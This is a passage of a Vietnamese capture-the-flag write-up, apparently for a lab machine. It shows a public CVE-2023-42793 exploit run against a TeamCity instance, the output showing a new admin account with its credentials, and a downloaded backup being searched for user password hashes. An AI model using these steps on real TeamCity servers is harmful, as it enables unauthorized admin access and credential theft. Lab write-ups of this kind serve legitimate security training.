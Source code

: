 Và đây là giao diện của website:

<img width="1851" height="837" alt="image" src="https://github.com/user-attachments/assets/99f397d9-95e2-4b5e-a216-d18628723e3a" />

Tôi search được cái [CVE-2023-42793](https://github.com/B4l3rI0n/CVE-2023-42793) và chạy thử:

```
┌──(py_envs)─(kali㉿kali)-[~/CVE-2023-42793]
└─$ python3 exploit.py -u http://teamcity.runner.htb/

=====================================================
*                                                   *
*              CVE-2023-42793                       *
*        TeamCity Admin Account Creation            *
*                                                   *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.SjRPTzQyaUtseVd5czl6N0VUa2FfNDRSNFRB.YWNiZDYwZTgtZmRmYy00NzU0LTk5YzktNjI1M2YwZTU5YWMy
Token saved to ./token
Successfully exploited!
URL: http://teamcity.runner.htb/
Username: admin.pKlI
Password: Password@123
```

Tạo được tài khoản và mật khẩu của `TeamCity` và truy cập được vào dashboard:

<img width="1857" height="725" alt="image" src="https://github.com/user-attachments/assets/690f592d-9fc6-4311-ac7a-7e79ac5f2bbf" />

Trong trang web còn có tính năng backup:

<img width="1705" height="884" alt="image" src="https://github.com/user-attachments/assets/5643d6c2-8b19-4533-9784-a5d002dba079" />

Sau khi unzip thì ra được các file như sau:

```
❯ ls -la
drwxr-xr-x   - namdeptrai 26 Sep 00:53  .
drwxr-xr-x   - namdeptrai 26 Sep 00:53  ..
.---------   6 namdeptrai 25 Sep 17:25 󰡯 charset
drwxr-xr-x   - namdeptrai 26 Sep 00:53  config
drwxr-xr-x   - namdeptrai 26 Sep 00:53  database_dump
.--------- 630 namdeptrai 25 Sep 17:25  export.report
drwxr-xr-x   - namdeptrai 26 Sep 00:53  metadata
drwxr-xr-x   - namdeptrai 26 Sep 00:53  system
.---------  92 namdeptrai 25 Sep 17:25  version.txt
```

Tôi tìm được hash của mật khẩu bao gồm admin và matthew:

```
❯ cd database_dump
❯ ls
󰡯 action_history           󰡯 db_version          󰡯 project_mapping        󰡯 user_projects_visibility       󰡯 users
󰡯 agent_pool               󰡯 domain_sequence     󰡯 remember_me            󰡯 user_property                  󰡯 vcs_root
󰡯 agent_pool_project       󰡯 hidden_health_item  󰡯 server                 󰡯 user_roles                     󰡯 vcs_root_mapping
󰡯 audit_additional_object  󰡯 meta_file_line      󰡯 server_health_items    󰡯 usergroup_notification_data    󰡯 vcs_username
󰡯 backup_info              󰡯 node_locks          󰡯 server_property        󰡯 usergroup_notification_events
󰡯 build_queue_order        󰡯 node_tasks          󰡯 server_statistics      󰡯 usergroup_roles
󰡯 comments                 󰡯 permanent_tokens    󰡯 single_row             󰡯 usergroup_watch_type
󰡯 config_persisting_tasks  󰡯 project             󰡯 stats_publisher_state  󰡯 usergroups
❯ cat users
```